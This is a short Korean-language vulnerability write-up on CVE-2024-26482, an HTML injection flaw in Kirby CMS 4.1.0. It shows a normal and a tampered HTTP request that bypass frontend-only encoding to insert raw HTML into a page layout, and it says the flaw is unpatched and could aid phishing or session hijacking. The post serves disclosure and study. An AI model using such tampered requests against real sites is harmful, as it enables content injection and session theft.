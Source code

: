 ```yaml
---
title: "[하루한줄] CVE-2024-26482: Kirby CMS의 HTML Injection 취약점"
author: pwndorei
tags: [Kirby CMS, HTML Injection, pwndorei]
categories: [1day1line]
date: 2024-02-22 23:00:00
cc: true
index_img: /img/1day1line.png
---
```

# CVE-2024-26482

담당자: 이준수
업로드: No
업로드날짜: 2024년 2월 22일
작성 날짜: 2024년 2월 22일

Tag : {Kirby CMS, HTML Injection, pwndorei}

## Title

CVE-2024-26482 : Kirby CMS의 HTML Injection 취약점

## URL

[https://shrouded-trowel-50c.notion.site/Kirby-CMS-4-1-0-HTML-Injection-19ca19686d0a4533ab4b0c53fc977eef?pvs=4](https://www.notion.so/CVE-2024-26482-Kirby-CMS-4-1-0-HTML-Injection-19ca19686d0a4533ab4b0c53fc977eef?pvs=21)

## Target

- Kirby CMS 4.1.0

## Explain

파일 기반 CMS(콘텐츠 관리 시스템)인 Kirby CMS에서 HTML Injeciton 취약점이 발생했습니다.

취약점은 아래의 관리 패널에서 콘텐츠 레이아웃을 수정할 때 발생합니다.

![image0](2024-02-22/image0.png)

위처럼 레이아웃에 HTML 코드를 추가하면 아래와 같은 HTTP 요청이 발생합니다.

```
POST /BGZUwFZY/api/pages/microsite HTTP/1.1
Host: trykirby.com
Cookie: kirby_session=910521efece58be7ce81f24f7c2b5978f21a791a%2B1707762274.dd8b11107e02a3859af3.2da7b8302b8e19193900caedabf370a68d674e23f80cf58135327d573242604b; instance=410dd31498585dbf2529a45d1da40600f8a7c87c%2Bhttps%3A%2F%2Ftrykirby.com%2FBGZUwFZY%2F; snipcart-cart=37440eed-2a09-4ed3-b534-515b00f4301c
Content-Length: 371
Sec-Ch-Ua: "Not A(Brand";v="99", "Microsoft Edge";v="121", "Chromium";v="121"
X-Language: null
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0
Content-Type: application/json
X-Csrf: dffaa6b125814485f872c3bfb34fa828d0bdbb5597fa0cbfcd8306bf6f302683
X-Http-Method-Override: PATCH
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Origin: https://trykirby.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: same-origin
Sec-Fetch-Dest: empty
Referer: https://trykirby.com/BGZUwFZY/panel/pages/microsite?tab=content
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

{
  "modules": [
    {
      "attrs": [],
      "columns": [
        {
          "blocks": [
            {
              "content": {
                "text": "<p>&lt;h1&gt;tester&lt;/h1&gt;</p>"
              },
              "id": "970d3d93-f87c-4a36-a912-018a262e3b1d",
              "isHidden": false,
              "type": "text"
            }
          ],
          "id": "4007332a-999e-4aa2-966b-53ddc76b0ae2",
          "width": "1/1"
        }
      ],
      "id": "36dc9245-8867-4f8a-b2cd-2496d3998ffa"
    }
  ],
  "description": "Representative one-pagers for your product",
  "uuid": "VZlscZfc8c5gEiwM"
}
```

삽입한 `<h1>tester</h1>` HTML 코드에서 `<`, `>`가 HTML 엔티티로 인코딩되고 `p` 태그에 감싸져서 전달되는 것을 확인할 수 있습니다.

하지만 이러한 변환이 프론트엔드에서 이루어지기 때문에 아래와 같이 임의의 HTML 코드로 요청을 변조하는 것이 가능합니다.

```
POST /BGZUwFZY/api/pages/microsite HTTP/1.1
Host: trykirby.com
Cookie: kirby_session=910521efece58be7ce81f24f7c2b5978f21a791a%2B1707762274.dd8b11107e02a3859af3.2da7b8302b8e19193900caedabf370a68d674e23f80cf58135327d573242604b; instance=410dd31498585dbf2529a45d1da40600f8a7c87c%2Bhttps%3A%2F%2Ftrykirby.com%2FBGZUwFZY%2F; snipcart-cart=37440eed-2a09-4ed3-b534-515b00f4301c
Content-Length: 352
Sec-Ch-Ua: "Not A(Brand";v="99", "Microsoft Edge";v="121", "Chromium";v="121"
X-Language: null
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0
Content-Type: application/json
X-Csrf: dffaa6b125814485f872c3bfb34fa828d0bdbb5597fa0cbfcd8306bf6f302683
X-Http-Method-Override: PATCH
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Origin: https://trykirby.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: same-origin
Sec-Fetch-Dest: empty
Referer: https://trykirby.com/BGZUwFZY/panel/pages/microsite?tab=content
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

{
  "modules": [
    {
      "attrs": [],
      "columns": [
        {
          "blocks": [
            {
              "content": {
                "text": "<h1>tester</h1>"
              },
              "id": "970d3d93-f87c-4a36-a912-018a262e3b1d",
              "isHidden": false,
              "type": "text"
            }
          ],
          "id": "4007332a-999e-4aa2-966b-53ddc76b0ae2",
          "width": "1/1"
        }
      ],
      "id": "36dc9245-8867-4f8a-b2cd-2496d3998ffa"
    }
  ],
  "description": "Representative one-pagers for your product",
  "uuid": "VZlscZfc8c5gEiwM"
}
```

수정된 레이아웃을 확인해보면 아래와 같이 삽입된 HTML 코드가 그대로 페이지에 나타나는 것을 볼 수 있습니다.

![image1](2024-02-22/image1.png)

해당 취약점은 악의적인 HTML, Javascript 코드를 삽입하여 피싱이나 세션 하이재킹 등에 악용될 가능성이 있으며 아직 패치는 이루어지지 않은 상태입니다.